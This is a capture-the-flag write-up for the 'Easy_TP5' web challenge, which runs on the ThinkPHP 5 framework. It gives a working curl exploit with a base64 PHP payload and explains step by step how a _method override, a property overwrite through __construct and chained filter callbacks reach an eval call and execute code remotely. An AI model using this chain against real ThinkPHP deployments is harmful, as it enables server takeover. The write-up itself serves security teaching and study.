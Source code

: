 # Easy_TP5

A web challenge with thingphp framework ended up having 11 solves

## Solution

Final exploit:

```
curl --data "path=PD9waHAgZmlsZV9wdXRfY29udGVudHMoJ3N1cHBwLnBocCcsJ3N1cGVyIGd1ZXNzc3NlcnMnKTsgPz4=&_method=__construct&filter[]=set_error_handler&filter[]=self::path&filter[]=base64_decode&filter[]=\think\view\driver\Php::Display&method=GET" "http://101.32.184.39/?s=captcha&g=implode"
```

This exploit create file names `suppp.php` with `super guessssers` inside it.

## explanation

## First step
Well The challenge had many steps so i just explain how the exploit works. Everything starts from this function in `Request.php`

```
public function method($method = false)
    {
        if (true === $method) {
            return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $this->method = strtoupper($_POST[Config::get('var_method')]);
                $this->{$this->method}($_POST);
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
            }
        }
        return $this->method;
    }

```

And this part

```
if (isset($_POST[Config::get('var_method')])) {
      $this->method = strtoupper($_POST[Config::get('var_method')]);
      $this->{$this->method}($_POST);
}
```

Accoring to `config.php` the `var_method` is set to `_method` it means that we can call any method with `$_POST` as argument.

In our exploit, The `_method`'s value in post parameters is ``__construct``.

## Second step

`__constructor` method of `Request.php` is

```
public function __construct($options = []){
        foreach ($options as $name => $item) {
            if (property_exists($this, $name)) {
                $this->$name = $item;
            }
        }
        if (is_null($this->filter)) {
            $this->filter = Config::get('default_filter');
        }
}
```

In the exploit, The `__construct` method is called with `$_POST` as arg so `$options` here is `$_POST`.

So we can overwrite any object's property to arbitrary value.

In the exploit we overwrite

```
path => "payload"
_method => "__construct"
filter => ["set_error_handler","self::path","base64_decode","\think\view\driver\Php::Display"]
method => "GET"
```

## Third step

Now the code continues until this code in `input` method

```
if (is_array($data)) {
     array_walk_recursive($data, [$this, 'filterValue'], $filter);
     reset($data);
} 
```

where `array_walk_recursive` calls `filterValue` method with following args in first call.

```
&$value   -> implode
$key      -> key of array - not important
$filters  -> ["set_error_handler","self::path","base64_decode","\think\view\driver\Php::Display"]

``` 

In `filterValue` we have

```
private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);
        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (strpos($filter, '/')) {
                    if (!preg_match($filter, $value)) {          
                        $value = $default;
                        break;
                    }
                } elseif (!empty($filter)) {
                    $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                    if (false === $value) {
                        $value = $default;
                        break;
                    }
                }
            }
        }
        return $this->filterExp($value);
    }
```

This part is important:

```
foreach ($filters as $filter) {
            if (is_callable($filter)) {
                $value = call_user_func($filter, $value);
            }
```

It calls each filter, with previous function's return value. We can call arbitrary function with arbitrary arg But it's so limited with disabled functions and arguments count limitation. So now we need to chains function ( ROP :P ).

Our main gadget is `display` method in `think\view\driver\Php`.

Which is

```
 public function display($content, $data = [])
    {
        if (isset($data['content'])) {
            $__content__ = $content;
            extract($data, EXTR_OVERWRITE);
            eval('?>' . $__content__);
        } else {
            extract($data, EXTR_OVERWRITE);
            eval('?>' . $content);
        }
    }
```

Fortunately php supports calling non static methods ( with a warning ), But the framework has set `error_hander` to some function, so if we call non static method, we will face framework's error handler. So first we have to call `set_error_handler` with dummy function's name, here `implode`, to turn off framework's error handling. So here is my chain. 

```
function | argument ^ return value
1.
set_error_handler | "implode" ^ array
2.
self::path | The path property which we overwrited ^ base64 payload 
3.
base64_decode | base64 payload ^ decoded payload
4.
\think\view\driver\Php::Display | decoded payload

```

So now we had control over arguments, Then we used [this](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php) payload to execute system commands, and got flag.

Flag: <b>n1ctf{ab24ad523665a581da7fd54386895f51}</b>
